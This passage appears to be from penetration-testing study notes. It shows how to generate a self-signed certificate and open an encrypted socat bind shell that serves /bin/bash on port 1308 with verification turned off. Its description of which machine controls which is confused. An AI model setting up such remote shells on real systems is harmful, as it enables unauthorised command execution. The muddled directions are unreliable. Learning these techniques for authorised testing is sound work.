 ### **2.4. Socat Encrypted Bind Shells**

The Kali Linux machine will connect to the Windows machine and will be able to execute commands on the Windows machine.

Use `openssl` to generate a self-signed certificate and a private key.

- `req`: initiate a new certificate signing request
-newkey: generate a new private key
- `rsa:2048`: use RSA encryption with a 2,048-bit key length.
- `-nodes`: store the private key without passphrase protection
- `-keyout`: save the key to a file
- `-x509`: output a self-signed certificate instead of a certificate request
- `-days`: set validity period in days
- `-out`: save the certificate to a file

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

![](./img/Chapter4/24.png)

Combine the certificate and the private key into a single `.pem` file.

```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

From Kali-Linux, we will use the `OPENSSL-LISTEN` option to create the listener on port 1308,
`cert=bind_shell.pem` to specify our certificate file, `verify` to disable SSL verification, and `fork`
to spawn a child process once a connection is made to the listener

```bash
sudo socat OPENSSL-LISTEN:1308,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

![](./img/Chapter4/25.png)
